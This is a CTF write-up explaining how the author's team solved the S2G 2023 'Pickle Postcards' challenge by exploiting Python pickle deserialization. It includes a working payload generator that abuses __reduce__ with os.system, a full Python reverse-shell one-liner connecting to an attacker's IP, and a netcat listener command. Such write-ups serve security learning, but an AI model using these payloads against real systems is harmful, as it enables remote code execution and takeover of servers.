


### Basic python picle challenge
#### S2G web Pickle Postcards

Exploiting pythons \__reduce__ to create a payload that when loaded on the server gives us a reverse shell.
 <!--more-->

This was one of the more interesting challenges of the S2G web CTF 2023, mainly because I hadn't solved a pickle challenge during a ctf before, but this time my teammate managed to do it. This writeup will explain the practical ways of approaching this fairly straight forward challenge. If you are looking for more detailed explanations as well I would recommend finding a different writeup, or using this alongside the python documentation and other material. 

{}

We were given the source code of the application (above), with the interesting file being app.py. Opening up the website it looks like this:



It is clearly a pickle challenge, so lets look at what the code does. The most interresting snippets in app.py are:

```py
@app.route('/', methods=['GET', 'POST'])
def index():
  data = str(request.args.get("data", ""))

  # Load/Deserialize postcard data
  if request.method == "GET" and data:
    
    deserialized_postcard = deserialize(data)
```

and

```py
def deserialize(serialized):
postcard = pickle.loads(base64.b64decode(serialized))
return postcard
```

A pickle challenge really can't get much more straight forward. It is more common to use pickle.loads for interpreting cookies, but this will simply take whatever data we send to the "/" endpoint and execute pickle.loads on it after base64 decoding it.

Pickle challenges relies on the \__reduce__ method on a python object. The following code is a good template for creating our own pickle payload:

```py
import pickle
import os
from base64 import b64encode, b64decode

COMMAND = '''
<insert command here>
'''

class Evil(object):
    def __reduce__(self):
        return (os.system,(COMMAND,))

e = Evil()
evil_token = b64encode(pickle.dumps(e))
print(evil_token)

#server runs pickle.loads(base64,b64decode(evil_token)) 
```

Sending the result of this script to the server will give us RCE of whatever we insert as the command. We could theoretically have it read flag.txt and return an object that could be printed on the website, but we can also just create a reverse shell if we have a public IP available. A great tool for creating reverse shells is https://www.revshells.com/. It is safest to use a python reverse shell as we know for sure that the webserver is running python.

The reverse shell generator gives us the command `export RHOST="<insert public ip here>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`. Placing this in the COMMAND field above and running the pickle payload generator gives the following output:



Sending this to the server shoudl make it run the provided command, so all we have to do now is listen on the correct port on the machine with the public IP and send the payload to the server through the "Enter saved postcard data" field on the website.
We listen with `nc -lvp <port>` and get a shell on the webserver. Then all that's left is reading the flag.


